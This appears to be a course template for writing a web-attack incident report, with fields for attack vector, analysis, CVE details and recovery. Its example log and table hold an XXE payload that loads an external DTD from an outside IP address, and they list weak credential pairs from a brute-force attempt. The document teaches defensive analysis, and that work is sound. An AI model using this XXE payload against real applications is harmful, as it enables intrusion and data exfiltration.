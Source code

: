 ﻿
# Incident Report 'X'

  

Reporter Name | Lighthouse Labs

  

Date and time of attack:

  

Attack vector:

## Vector Diagnosis

1. Name of the attack.

2. Describe the attack in your language. What the attacker tried and if he was succcesful.

  

## Attack Analysis

1. Mention the section of the application which was compromised.

2. Add the proof of the attack - e.g. URL in encoded as well as decoded format.

  

**Example of log within code block below**

```
158.52.23.93--[30/Sep/2020:07:49:26-0400]"GET/login.php?upload=<foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://57.21.52.73:22/">%dtd;]><xxx/>]]></foo>HTTP/1.1"2003343"http://www.cybintnews.com/index.html?upload=<foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://57.21.52.73:22/">%dtd;]><xxx/>]]></foo>""Mozilla/5.0(WindowsNT10.0;Win64;x64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/85.0.4183.121Safari/537.36
```

  

**Example of Table below**
| Usernames | Passwords | Attempts |
| ------------- |:-------------:| -----:|
| user1 | password | 1600 |
| user2 | password123 | 12 |
| admin | noopassword | 10 |

**Another Example of a table**  

IP | Method of attack | Events | URI
--- | --- | --- | --- |
127.0.0.1 | XXE | **25** | `<foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM `
localhost | SQL Injection | 3 |

## Visual Display

- Screenshot/Video showing the attack and how to find it.

  

## Signature / CVE Details

**CVE Example Below**

```
CVE

CVE-2022-21721

Description

Next.js is a React framework. Starting with version 12.0.0 and prior to version 12.0.9, vulnerable code could allow a bad actor to trigger a denial of service attack for anyone using i18n functionality. In order to be affected by this CVE, one must use next start or a custom server and the built-in i18n support. Deployments on Vercel, along with similar environments where invalid requests are filtered before reaching Next.js, are not affected. A patch has been released, `next@12.0.9`, that mitigates this issue. As a workaround, one may ensure `/${locale}/_next/` is blocked from reaching the Next.js instance until it becomes feasible to upgrade.

  

References

CONFIRM:https://github.com/vercel/next.js/security/advisories/GHSA-wr66-vrwm-5g5x

URL:https://github.com/vercel/next.js/security/advisories/GHSA-wr66-vrwm-5g5x

MISC:https://github.com/vercel/next.js/pull/33503

URL:https://github.com/vercel/next.js/pull/33503

MISC:https://github.com/vercel/next.js/releases/tag/v12.0.9

URL:https://github.com/vercel/next.js/releases/tag/v12.0.9

  

Assigning CNA

GitHub (maintainer security advisories)

Date Record Created

20211116 Disclaimer: The record creation date may reflect when the CVE ID was allocated or reserved, and does not necessarily indicate when this vulnerability was discovered, shared with the affected vendor, publicly disclosed, or updated in CVE.

Phase (Legacy)

Assigned (20211116)
```

If possible Score the attack by using this tool - https://www.first.org/cvss/calculator/3.0

  

## Mitigation Steps

How to recover your applications back to normal behaviour

## Recovery Steps

Back up plan in case of future attacks

  

## More Notes 

